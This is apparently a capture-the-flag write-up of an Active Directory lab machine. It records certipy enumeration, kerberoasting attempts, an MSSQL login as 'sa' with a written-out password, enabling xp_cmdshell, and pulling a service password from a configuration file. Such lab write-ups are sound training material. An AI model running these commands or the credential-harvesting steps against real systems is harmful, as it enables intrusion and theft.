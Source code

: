 Works for oscar. Time to check bloodhound for some paths. Seems that we need to do some certipy stuff.
![escapetwo1](/assets/img/escapetwo1.png)

```bash
certipy find -target dc01.sequel.htb -u oscar -p 86LxLBMgEWaKUnBG
```

Certipy doesn't show any ESC[n] so probably not it? Time to check mssql.

Nothing on mssql too.

Maybe kerberoasting? nothing also.

Targeted kerberoasting works. We get the hash of two different services. But none of them crack.

Checking ldap descriptions. Nothing there too.

It seems that my certipy was out of date. Updating to 5.0.2 shows some possible exploits.

Nvm still nothing. I don't know what else to do.

Adding "--windows-auth" make the login for sql fail. I guess its my fault.
```bash
mssqlclient.py "sequel.htb/sa:MSSQLP@ssw0rd!@dc01.sequel.htb" -windows-auth # FAILS
mssqlclient.py "sequel.htb/sa:MSSQLP@ssw0rd!@dc01.sequel.htb" # WORKS
SQL (sa  dbo@master)> enable_xp_cmdshell
# INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
# INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

new password found on C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI
```bash
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
```
